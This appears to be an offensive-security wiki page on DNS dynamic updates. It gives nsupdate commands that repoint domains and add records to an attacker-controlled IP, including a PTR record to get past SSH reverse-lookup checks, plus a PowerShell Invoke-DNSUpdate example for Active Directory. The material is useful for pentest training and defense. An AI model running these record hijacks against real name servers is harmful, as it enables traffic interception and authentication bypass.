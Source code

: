 # Dynamic updates

{% tabs %}
{% tab title="Unix*" %}
### nsupdate

`nsupdate` is used to send dynamic DNS update requests, as defined in RFC2136, to a name server. This allows adding or removing resource records from a zone without manually editing the zone file. A single update request can contain requests to add or remove more than one resource record.

Zones that are under dynamic control via `nsupdate` or a DHCP server should not be edited by hand. Manual edits could conflict with dynamic updates and result in data loss.

Resource records that are dynamically added or deleted with `nsupdate` have to be in the same zone. Requests are sent to the zone master server. This is identified by the MNAME field of the zone's SOA record.

#### Connect

```bash
# Connect (remote):
nsupdate
> server <DNS_IP>

# Connect with key:
nsupdate -k /etc/bind/<KEY>.key
> server <DNS_IP>
```

#### Change IP from a domain name

```bash
nsupdate
> update delete test.example.com
> update add test.example.com 86400 A <IP ATTACKER> # The newly added record has a TTL of 1 day (86400 seconds).
> send
```

#### Add new domain with attacker IP

```bash
# Add new domain with attacker IP.
> update add test.example.com 86400 IN A <ATTACKER IP>
> send
# - We can try nslookup if it works:
nslookup
> server <DNS_IP>
> <DOMAIN>
```

#### Add a reverse lookup (PTR) on a domain

Useful if SSH allows you to connect only for a specific domain or hostname (in this case, you would have to add a domain pointing to your IP) because this service does a reverse lookup:

```bash
nslookup
> server <DNS_IP>
> <ATTACKER_IP>
# - We copy the domain that gives us as error,
# since it can not find it (<COPY_DOMAIN>)
nsupdate
> update add <COPY_DOMAIN> 300 IN PTR <DOMAIN> # Añadir un reverse lookup, para que SSH encuentre el dominio que apunta hacia nosotros.
> send
```
{% endtab %}

{% tab title="Windows" %}
### Invoke-DNSUpdate

As we said in the theory part, dynamic updates allow clients to create/modify/delete DNS records. In Active Directory by default only secured dynamic updates are allowed. This means that DNS records are protected by ACLs and only authorized users can modify them.

**By default, any user can create a new DNS record** (the user becomes its owner) and only the owner can update or delete the DNS record. Therefore, access is denied if a user wants to create a DNS record that already exists.&#x20;

To create new DNS records through dynamic DNS updates the [Invoke-DNSUpdate](https://github.com/Kevin-Robertson/Powermad#invoke-dnsupdate) script is used.

```bash
# Add test.contoso.local pointing to our IP:
Invoke-DNSUpdate -DNSType A -DNSName test -DNSData <IP> -Verbose
```
{% endtab %}
{% endtabs %}
